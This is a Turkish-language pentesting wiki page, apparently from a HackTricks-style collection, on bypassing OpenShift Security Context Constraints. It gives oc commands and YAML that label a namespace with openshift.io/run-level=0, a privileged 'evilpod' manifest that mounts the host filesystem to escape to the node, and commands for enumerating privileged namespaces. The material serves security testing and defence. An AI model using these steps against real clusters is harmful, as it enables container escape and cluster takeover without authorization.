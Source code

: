 # Openshift - SCC bypass

**Bu sayfanın orijinal yazarı** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Ayrıcalıklı Ad Alanları

Varsayılan olarak, SCC aşağıdaki projelere uygulanmaz:

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

Bu ad alanlarından birinde pod'lar dağıtırsanız, SCC uygulanmayacak ve ayrıcalıklı pod'ların dağıtımına veya ana bilgisayar dosya sisteminin bağlanmasına izin verilecektir.

## Ad Alanı Etiketi

RedHat belgelerine göre, pod'unuzda SCC uygulamasını devre dışı bırakmanın bir yolu vardır. Aşağıdaki izinlerden en az birine sahip olmanız gerekecektir:

- Bir Ad Alanı oluşturun ve bu Ad Alanında bir Pod oluşturun
- Bir Ad Alanını düzenleyin ve bu Ad Alanında bir Pod oluşturun
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
`openshift.io/run-level` etiketinin belirli bir kullanımı, kullanıcıların uygulamalar için SCC'leri aşmalarını sağlar. RedHat belgelerine göre, bu etiket kullanıldığında, o ad alanındaki tüm pod'lar üzerinde hiçbir SCC uygulanmaz, bu da herhangi bir kısıtlamayı etkili bir şekilde ortadan kaldırır.

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Etiket Ekle

Ad alanınıza etiketi eklemek için:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Bir YAML dosyası aracılığıyla etiket ile bir ad alanı oluşturmak için:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Artık, ad alanında oluşturulan tüm yeni pod'ların herhangi bir SCC'si olmamalıdır.

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

SCC'nin yokluğunda, pod tanımınız üzerinde herhangi bir kısıtlama yoktur. Bu, kötü niyetli bir pod'un ana sistemde kaçmak için kolayca oluşturulabileceği anlamına gelir.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Artık ana sistemin erişimini sağlamak ve ardından tüm kümeyi ele geçirmek için ayrıcalıkları artırmak daha kolay hale geldi; 'cluster-admin' ayrıcalıkları kazanılıyor. Aşağıdaki sayfada **Node-Post Exploitation** kısmını arayın:

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### Özel etiketler

Ayrıca, hedef kurulumuna bağlı olarak, bazı özel etiketler / açıklamalar önceki saldırı senaryosunda olduğu gibi kullanılabilir. Yapılmamış olsa bile, etiketler belirli bir kaynağa izin vermek, kısıtlamak veya kısıtlamamak için kullanılabilir.

Bazı kaynakları okuyabiliyorsanız özel etiketleri aramaya çalışın. İşte ilginç kaynakların bir listesi:

- Pod
- Deployment
- Namespace
- Service
- Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Tüm ayrıcalıklı ad alanlarını listele
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Gelişmiş istismar

OpenShift'te, daha önce gösterildiği gibi, `openshift.io/run-level` etiketine sahip bir ad alanında bir pod dağıtma iznine sahip olmak, kümenin kolayca ele geçirilmesine yol açabilir. Küme ayarları açısından, bu işlevsellik **devre dışı bırakılamaz**, çünkü OpenShift'in tasarımına içkindir.

Ancak, **Open Policy Agent GateKeeper** gibi hafifletme önlemleri, kullanıcıların bu etiketi ayarlamasını engelleyebilir.

GateKeeper'ın kurallarını aşmak ve bu etiketi ayarlayarak bir küme ele geçirme işlemi gerçekleştirmek için, **saldırganların alternatif yöntemler belirlemesi gerekecektir.**

## Referanslar

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
